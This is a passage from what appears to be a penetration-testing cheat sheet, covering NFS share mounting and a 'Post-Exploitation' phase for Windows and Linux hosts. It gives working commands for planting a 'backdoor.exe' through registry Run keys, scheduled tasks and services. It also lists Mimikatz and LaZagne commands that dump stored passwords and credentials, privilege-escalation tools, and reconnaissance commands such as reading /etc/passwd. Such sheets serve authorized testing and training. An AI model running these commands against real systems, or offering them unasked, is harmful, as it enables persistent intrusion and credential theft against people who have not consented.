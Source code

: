 #### File System Exploitation
- **NFS Shares**
  - `showmount -e <target_ip>`
  - `mount -t nfs <target_ip>:/<share> /mnt/nfs`

---

## Phase 6: Post-Exploitation

### Windows Post-Exploitation

#### System Information Gathering
- `systeminfo`
- `whoami /all`
- `net user`
- `net localgroup administrators`
- `wmic qfe list` (patches installed)

#### Privilege Escalation
- **Windows Exploit Suggester**
  - `python windows-exploit-suggester.py --database 2021-01-01-mssb.xls --systeminfo systeminfo.txt`
- **PowerUp.ps1**
  - `Import-Module .\PowerUp.ps1; Invoke-AllChecks`
- **WinPEAS**
  - `winpeas.exe`

#### Persistence Mechanisms
- **Registry Run Keys**
  - `reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v backdoor /t REG_SZ /d "C:\backdoor.exe"`
- **Scheduled Tasks**
  - `schtasks /create /tn "backdoor" /tr "C:\backdoor.exe" /sc onstart`
- **Service Creation**
  - `sc create backdoor binpath= "C:\backdoor.exe" start= auto`

#### Credential Harvesting
- **Mimikatz**
  - `privilege::debug`
  - `sekurlsa::logonpasswords`
  - `sekurlsa::wdigest`
- **LaZagne**
  - `laZagne.exe all`

### Linux Post-Exploitation

#### System Information Gathering
- `uname -a`
- `id`
- `sudo -l`
- `cat /etc/passwd`
- `ps aux`
- `netstat -tulpn`
